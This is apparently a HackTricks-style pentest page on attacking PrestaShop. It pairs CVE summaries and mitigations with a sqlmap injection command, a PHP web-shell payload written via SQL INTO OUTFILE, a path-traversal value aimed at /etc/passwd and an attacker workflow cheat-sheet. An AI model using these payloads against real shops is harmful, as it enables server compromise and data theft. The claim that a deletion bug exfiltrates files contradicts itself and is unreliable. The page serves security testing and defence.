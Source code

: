 # PrestaShop

{{#include ../../banners/hacktricks-training.md}}

## From XSS to RCE

*The original section is kept for visibility.*

- **[PrestaXSRF](https://github.com/nowak0x01/PrestaXSRF)** – JavaScript exploitation framework that escalates **stored XSS** found in the PrestaShop back-office to **arbitrary module upload (RCE)** on **8.x** and **1.7.x** branches. In its default **`PSUploadModule()`** mode it leverages the `AdminModules` controller to upload a zipped back-door module and gain a persistent shell. Full write-up available in the [accompanying blog-post](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html).

---

## Recently-relevant vulnerabilities (2022-2025)

### 1. Unauthenticated SQL Injection ➜ Remote Code Execution  
**CVE-2022-36408 / CVE-2022-31181** (core) – fixed in **1.7.8.7**

Attackers chain an **unauthenticated SQLi** (in the `Search` module or any vulnerable third-party module) with the _MySQL Smarty cache_ storage feature. By injecting a malicious Smarty template into the cache table and then triggering its compilation they reach **`eval()`** and execute arbitrary PHP.

Minimal PoC (blind):
```bash
sqlmap -u "https://shop.com/?q=ipad" \
       --method POST -p q \
       --dbms MySQL --risk 3 --level 3 \
       --sql-shell
# WRITEFILE payload into ps_smarty_cache to create backdoor under img/..
```
Trigger compilation by visiting the affected page or by flushing the cache from BO.

Mitigation
1. Patch to ≥ **1.7.8.7** (or any 8.x release)
2. Disable **MySQL Smarty cache** (`config/smarty.config.inc.php`)
3. Remove/patch vulnerable modules.

### 2. SQL-Manager privilege-escalation / potential RCE  
**CVE-2023-30839** (GHSA-gf46-prm4-56pc) – fixed in **1.7.8.10 / 8.0.5 / 8.1.1**

Any **low-privileged back-office user** with access to *Advanced > Database* can abuse missing ACL checks to run arbitrary SQL, including `LOAD_FILE()` / `INTO OUTFILE`, resulting in file read/write and full server compromise.

Write a web-shell directly from the interface:
```sql
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/img/ws.php";
```
Browse to `/img/ws.php?cmd=id`.

### 3. Directory Traversal on import file deletion  
**CVE-2023-39525** – fixed in **8.1.1**.  
Replay the deletion request with a crafted `filename=../../../../etc/passwd` to exfiltrate arbitrary files.

### 4. Deserialization RCE in **ProductDesigner** module  
**CVE-2024-24302** (< 1.178.36). Unauthenticated payload sent to `productdesigner.php` reaches `unserialize()` in `postProcess()`, giving direct code-execution. Remove or update the module.

### 5. Anonymous stored XSS via contact attachment  
**CVE-2024-34716** (< 8.1.6). Uploading an HTML file through the FO contact form abuses the **customer-thread** feature flag. Payload executes in BO when an admin previews the attachment and can steal CSRF tokens to perform state-changing requests.

---

## Attacker’s workflow cheat-sheet
1. Fingerprint PrestaShop (`/modules/autoupgrade/ajax/` leaks version).
2. Test unauth SQLi (CVE-2022-36408) –> drop web-shell through Smarty cache.
3. If BO creds obtained (phishing, weak password) leverage SQL Manager (CVE-2023-30839) to escalate.
4. Scan `modules/` for **ProductDesigner**, `productdesigner.php` deserialization vector.
5. Attempt stored XSS (CVE-2024-34716) to ride admin cookies and trigger **PrestaXSRF**.

---

## Extra offensive tooling

| Tool | Purpose |
|------|---------|
| [PrestaXSRF](https://github.com/nowak0x01/PrestaXSRF) | XSS ➜ module-upload RCE |
| [prestashop-sqli-rce](https://github.com/friends-of-presta/security-advisories/tree/main/_posts/2022-07-22-core-ps-246) | PoC chain for CVE-2022-36408 |
| `sqlmap –-technique=T` | Automatic detection/exploitation of the MySQL Smarty vector |

---

## Defensive recommendations
• **Upgrade** to the latest LTS (**8.1.6** at the time of writing).  
• Disable or restrict access to **SQL Manager**, remove unused BO accounts.  
• Remove deprecated MySQL Smarty caching and third-party modules you do not absolutely need.  
• Harden the file-system: `open_basedir`, `disable_functions`, proper ownership (Apache ≠ deploy user).  
• Deploy a WAF/ModSecurity ruleset to drop typical injection payloads.



## References

- “PrestaShop fixes bug that lets any backend user delete databases” – BleepingComputer, April 26 2023.  
- “CVE-2022-36408: zero-day PrestaShop SQL injection & RCE” – SecurityOnline, July 22 2022.
{{#include ../../banners/hacktricks-training.md}}
